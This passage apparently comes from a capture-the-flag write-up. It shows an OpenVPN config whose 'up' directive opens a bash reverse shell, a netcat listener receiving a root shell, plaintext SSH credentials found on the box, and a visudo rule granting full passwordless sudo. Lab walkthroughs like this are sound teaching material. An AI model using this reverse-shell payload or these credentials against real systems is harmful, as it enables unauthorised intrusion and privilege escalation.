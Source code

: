 We can grab `http://127.0.0.1/123.ovpn`:

```
remote 192.168.122.1
dev tun
nobind
script-security 2
up "/bin/bash -c 'bash -i >& /dev/tcp/192.168.122.1/2323 0>&1'"
```

And `http://127.0.0.1/script.sh`:

```
#!/bin/bash
sudo openvpn 123.ovpn
```

So it seems that the `123.ovpn` file contains a reverse shell payload.

We can just spawn a netcat on the box and trigger the `Test VPN` function to get a shell:

```
dave@ubuntu:~$ nc -lvnp 2323
Listening on [0.0.0.0] (family 0, port 2323)
Connection from [192.168.122.4] port 2323 [tcp/*] accepted (family 2, sport 60596)
bash: cannot set terminal process group (1131): Inappropriate ioctl for device
bash: no job control in this shell
root@DNS:/var/www/html# id;hostname
id;hostname
uid=0(root) gid=0(root) groups=0(root)
DNS
root@DNS:/var/www/html#
```

User flag found in Dave's directory:

```
root@DNS:/home/dave# cat user.txt
cat user.txt
a4947...
```

There's also SSH credentials in there:

```
root@DNS:/home/dave# cat ssh
cat ssh
dave
dav3gerous567
```

### Priv Esc

In the web directories, there's a file that reveals two additional network segments:
- 192.168.1.0/24
- 192.168.5.0/24

```
root@DNS:/var/www/DNS# ls -la
total 20
drwxrwxr-x 3 root root 4096 Jul 17 12:46 .
drwxr-xr-x 4 root root 4096 Jul 17 12:47 ..
drwxrwxr-x 2 root root 4096 Jul 17 10:34 desktop
-rw-rw-r-- 1 root root  214 Jul 17 10:37 interfaces
-rw-rw-r-- 1 root root   27 Jul 17 10:35 visudo

root@DNS:/var/www/DNS# cat visudo
www-data ALL=NOPASSWD: ALL

root@DNS:/var/www/DNS# cat interfaces
auto ens3
```
